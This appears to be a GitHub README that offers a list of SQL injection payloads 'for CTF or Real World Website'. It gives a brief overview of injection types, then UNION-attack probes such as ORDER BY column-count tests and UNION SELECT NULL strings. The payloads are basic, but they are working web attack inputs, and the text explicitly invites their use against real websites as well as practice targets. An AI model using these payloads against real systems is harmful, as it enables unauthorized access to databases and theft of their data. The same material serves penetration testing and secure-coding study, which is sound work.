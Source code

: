# SQL-Payload-

List of ALl SQL PAyload to be used for CTF or Real World Website !

![image](https://user-images.githubusercontent.com/82144868/210714729-ed83ccfa-6f56-4dce-ae99-d2c3ae8657b0.png)

SQL injection examples
There are a wide variety of SQL injection vulnerabilities, attacks, and techniques, which arise in different situations. Some common SQL injection examples include:

Retrieving hidden data, where you can modify an SQL query to return additional results.
Subverting application logic, where you can change a query to interfere with the application's logic.
UNION attacks, where you can retrieve data from different database tables.
Examining the database, where you can extract information about the version and structure of the database.
Blind SQL injection, where the results of a query you control are not returned in the application's responses.


UNION ATTACK 

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc



